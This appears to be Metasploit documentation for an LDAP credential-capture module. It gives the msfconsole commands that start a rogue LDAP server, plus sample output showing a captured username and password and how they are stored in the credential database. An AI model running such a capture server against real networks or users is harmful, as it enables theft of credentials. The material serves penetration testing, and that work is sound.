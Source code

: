 
## Vulnerable Application

This module emulates an LDAP Server which accepts User Bind Request to capture the User Credentials.
Upon receiving successful Bind Request, a `ldap_bind: Authentication method not supported (7)` error is sent to the User

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/server/capture/ldap`
3. Do: `run`
4. From a new shell or workstation, perform a ldap bind request involving User credentials.
5. Check the database using `creds` for the user authentication information.

## Options

### Authentication
  
The type of LDAP authentication to capture. The default type is `Simple`

## Scenarios

### Metasploit Server

```
msf > use auxiliary/server/capture/ldap
msf auxiliary(server/capture/ldap) > run

[*] Server started.
[+] LDAP Login attempt => From:10.0.2.15:48198 Username:User Password:Pass
```

### Client

```
└─$ ldapsearch -LLL -H ldap://10.0.2.15 -D cn=User,dc=example,dc=com -W
Enter LDAP Password: 
ldap_bind: Auth Method Not Supported (7)
        additional info: Auth Method Not Supported
```

**Database**

```
msf auxiliary(server/capture/ldap) > creds
Credentials
===========

host       origin     service         public  private  realm        private_type  JtR Format
----       ------     -------         ------  -------  -----        ------------  ----------
10.0.2.15  10.0.2.15  389/tcp (ldap)  User    Pass     example.com  Password      
```

